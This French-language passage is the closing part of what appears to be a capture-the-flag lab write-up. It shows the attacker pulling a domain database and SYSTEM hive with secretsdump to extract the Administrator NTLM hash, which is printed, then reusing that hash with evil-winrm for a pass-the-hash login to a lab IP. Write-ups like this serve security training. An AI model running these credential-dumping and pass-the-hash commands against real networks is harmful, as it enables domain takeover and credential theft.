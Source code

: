 On récupère le tout sur la machine d'attaque avec la commande `download`, enfin, on utilise secretsdump ou pypykatz pour récupérer les hashs

`secretsdump.py -system SYSTEM LOCAL -ntds ntds.dit`

![](img/secretsdump-extract-final.png)

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::`

Connexion avec evil-winrm et récupération du dernier flag

`evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.129.23.174`

![](img/evil-wrm-admin.png)
